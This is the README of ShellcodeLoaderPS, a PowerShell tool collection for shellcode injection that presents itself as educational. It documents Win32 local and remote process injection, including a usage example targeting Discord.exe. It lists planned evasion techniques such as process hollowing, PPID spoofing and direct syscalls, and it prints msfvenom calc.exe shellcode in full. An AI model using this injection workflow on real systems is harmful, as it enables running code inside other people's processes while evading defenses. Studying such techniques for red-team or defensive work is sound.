 # ShellcodeLoaderPS

This project is a collect of educational PowerShell-based shellcode injection/execution tools with overly verbose comments by design.
The goal is to offer a modular, readable framework that can educate people on native Windows API usage, shellcode execution techniques,
and low-level PowerShell tomfoolery (without leaning on `Add-Type` or embedded `C#`).

It is written with learning in mind over pure stealth and evasion -- hence why it is written in PowerShell instead of any other
language that would *actually* make sense (though to be fair that is kinda what makes this project fun and interesting).

**Directory Structure**
```
ShellcodeLoaderPS/
|__ helpers/
|   |__ win32-examples/*        # Contains examples of Win32 API usage via helper functions (e.g., `CreateProcessA().ps1`).
|   |__ Build-Win32Struct.ps1   # Defines .NET data structs within the session usable by Win32 functions.
|   |__ Format-ByteArray.ps1    # Converts shellcode strings in different languages to usable byte arrays.
|   |__ Load-Win32Function.ps1  # Dynamically resolves and loads Win32 API functions into session via delegates.
|__ standalone/
|   |__ add-type/*              # Standalone function(s) for shellcode injection using `Add-Type`.
|   |__ win32/*                 # Standalone function(s) for shellcode injection using Win32 API via helper functions.
|   |__ native/*                # Standalone function(s) for shellcode injection using Native API via helper functions.
|__ Load-Shellcode.ps1          # Main shellcode injector function, wrapping functionality of standalone functions.
|__ calc32.bin                  # Example 32-bit `calc.exe` shellcode generated from `msfvenom` used for testing.
|__ calc64.bin                  # Example 64-bit `calc.exe` shellcode generated from `msfvenom` used for testing.
```
_(Note: this project is work-in-progress, therefore some directory structures haven't been implemented yet)_

---

## Technical Roadmap

> [!NOTE]
> This project is actively in development and has a long way to go.  The below section provides a checklist
> with technical details of current and future completion goals, along with educational high-level breakdowns.

<details>
  
<summary>Project Roadmap & Rundown</summary>

**Status:**
- [x] **Avoiding Import Address Table (IAT) via Function Delegates**
  - This technique avoids common (and noisy) practices such as utilizing `Add-Type` and embedded `C#`.
  - This is accomplished via custom helpers to resolve and invoke raw function pointers with .NET delegates, allowing you to invoke them without adding an entry to the IAT.
  - Custom Scripts: `Load-Win32Function.ps1`, `Build-Win32Struct.ps1`
- [x] **Local Process Injection (via Win32)**
  - Inject shellcode into the current local process (i.e., `PowerShell`) using standard Win32 API calls (aka `Kernel32.dll`).
  - Skipping Native API (aka `Ntdll.dll`) due to remote process injection POC also supporting local process injection.
```mermaid
flowchart LR

%% Establish Processes
PS>**Attacker**<br>PowerShell Session]
Proc>**Attacker**<br>PowerShell Session]

%% Execution Chain
PS --> | 1: **VirtualAlloc**<br>Allocate memory.  | Proc
PS --> | 2: **CopyMemory**<br>Copy shellcode to process. | Proc
PS --> | 3: **CreateThread**<br>Execute shellcode. | Proc
PS --> | 4: **WaitForSingleObject**<br>Wait for completion. | Proc
```

- [x] **Remote Process Injection (via Win32 API)**
  - Inject shellcode into remote processes via the Win32 API (aka `Kernel32.dll`).
  - This also works for local process injection by targeting the current process' PID.
```mermaid
flowchart LR

%% Establish Processes
PS>**Attacker**<br>PowerShell Session]
Proc>**Victim**<br>Target Process]

%% Execution Chain
PS --> | 1: **OpenProcess**<br>Acquire handle to process.  | Proc
PS --> | 2: **VirtualAllocEx**<br>Allocate memory. | Proc
PS --> | 3: **WriteProcessMemory**<br>Copy shellcode to process. | Proc
PS --> | 4: **CreateRemoteThread**<br>Execute shellcode. | Proc
```
- [ ] **Remote Process Injection (via Native API)**
  - Inject shellcode into remote processes via the Native API (aka `Ntdll.dll`).
  - This also works for local process injection by targeting the current process' PID.
```mermaid
flowchart LR

%% Establish Processes
PS>**Attacker**<br>PowerShell Session]
Proc>**Victim**<br>Target Process]

%% Execution Chain
PS --> | 1: **NtOpenProcess**<br>Acquire handle to process.  | Proc
PS --> | 2: **NtAllocateVirtualMemory**<br>Allocate memory. | Proc
PS --> | 3: **NtWriteVirtualMemory**<br>Copy shellcode to process. | Proc
PS --> | 4: **NtCreateThreadEx**<br>Execute shellcode. | Proc
```
- [ ] **Process Hollowing**
  - Create a legitimate process in a suspended state, then replace the process' memory with malicious code before resuming execution.
- [ ] **PPID Spoofing**
  - Spoof the parent process ID of created processes.
  - This technique can make malicious processes appear spawned from trusted processes.
- [ ] **APC Injection (aka Earlybird)**
  - Queue shellcode execution to a thread's Asynchronous Procedure Call (APC) queue for stealthy execution.
- [ ] **Direct Syscalls**
  - Bypass userland API hooks by invoking direct system calls via SysCall stubs.
  - SysCalls are dependent on system architecture and build versions, so this will need to be very modular.
  - Reference: https://j00ru.vexillium.org/syscalls/nt/64/

</details>

## Load-Shellcode.ps1 Usage

Every script should hopefully be excessively documented, so plese refer to the source code for other examples.

```
Usage: Load-Shellcode [options]

Parameters:
  -Shellcode  -->  Shellcode to execute (can be a byte array or string containing file path or bytes).
  -TargetPID  -->  Target process PID to inject into. 
  -Debug      -->  Pause execution and print shellcode address for process attachment.
  -Help       -->  Return Get-Help information.

Example(s):
  ____________________________________________________________________________
 |                                                                            |
 | # Inject shellcode strintg into the current PowerShell process (and debug) |
 | PS> Load-Shellcode -Shellcode $calc64 -TargetPID $PID -Debug               |
 |                                                                            |
 | # Inject shellcode binary into 'Discord.exe'                               |
 | PS> $DiscordPID = (Get-Process -Name Discord).Id | Select -First 1         |
 | PS> Load-Shellcode -Shellcode .\calc64.bin -TargetPID $DiscordPID          |
 |____________________________________________________________________________|
```
_(Note: as of writing, only Win32-based remote process injection has been implemented -- will update over time)_

![image](https://github.com/user-attachments/assets/8753c151-8cc4-4f19-90be-23a8c2a620c5)

### Shellcode Parsing

For supported shellcode, the `-Shellcode` parameter is intentionally undeclared and written to accept most shellcode formats. Currently supports strings `[string]` and byte arrays `[byte[]]`.
If a standard array `[array]` is used, the array will be converted to a string prior to language detection. If a byte array is used, no formatting will occur.

Below is a table of supported string formats:

| Format | Example |
| --- | --- |
| Path to Raw Shellcode | `.\shellcode.bin` |
| Python Shellcode      | `'b"\x45\x78\x61\x6d\x70\x6c\x65"'` |
| C Shellcode           | `'\x45\x78\x61\x6d\x70\x6c\x65'` |
| C++ / C# Shellcode    | `'{0x45,0x78,0x61,0x70,0x6c,0x65}'` |

### Architecture Support
Works with both `Windows PowerShell` and `PowerShell Core (Pwsh)`. Using 64-bit PowerShell sessions
allows for both 64-bit and 32-bit injection, whereas 32-bit sessions only allow 32-bit injection.

## Shellcode Examples

Included in the files of this repository are two `calc.exe` shellcode files created from `msfvenom`, in both 32-bit and 64-bit...

... with that said, I recognize the in inherent trust needed before executing mysterious, unknown shellcode.  With that said, below are string
variants (which are the literal exact bytes I used to write those two `.bin` files) -- so feel free to use these instead.

```powershell
# 32-bit Shellcode (C Format)
# > msfvenom -p windows/exec CMD=calc.exe -f c EXITFUNC=thread

$calc32 = '\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb\x8d\x5d\x6a\x01\x8d\x85\xb2\x00\x00\x00\x50\x68\x31\x8b\x6f\x87\xff\xd5\xbb\xe0\x1d\x2a\x0a\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00'

# 64-bit Shellcode (C# Format)
# > msfvenom -p windows/x64/exec CMD=calc.exe -f csharp EXITFUNC=thread

$calc64 = '{
0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x00,0x00,0x00,0x41,0x51,
0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,
0x60,0x48,0x8b,0x52,0x18,0x48,0x8b,0x52,0x20,0x48,0x8b,0x72,
0x50,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,
0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,
0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,
0x42,0x3c,0x48,0x01,0xd0,0x8b,0x80,0x88,0x00,0x00,0x00,0x48,
0x85,0xc0,0x74,0x67,0x48,0x01,0xd0,0x50,0x8b,0x48,0x18,0x44,
0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,0x56,0x48,0xff,0xc9,0x41,
0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,
0xac,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,
0x4c,0x03,0x4c,0x24,0x08,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,
0x8b,0x40,0x24,0x49,0x01,0xd0,0x66,0x41,0x8b,0x0c,0x48,0x44,
0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,0x8b,0x04,0x88,0x48,0x01,
0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,
0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,
0x59,0x5a,0x48,0x8b,0x12,0xe9,0x57,0xff,0xff,0xff,0x5d,0x48,
0xba,0x01,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x48,0x8d,0x8d,
0x01,0x01,0x00,0x00,0x41,0xba,0x31,0x8b,0x6f,0x87,0xff,0xd5,
0xbb,0xe0,0x1d,0x2a,0x0a,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,
0xd5,0x48,0x83,0xc4,0x28,0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,
0x75,0x05,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x00,0x59,0x41,0x89,
0xda,0xff,0xd5,0x63,0x61,0x6c,0x63,0x2e,0x65,0x78,0x65,0x00
}'
```
For 32-bit reverse shell shellcode, check out my [genrev](https://github.com/tylerdotrar/genrev) project!
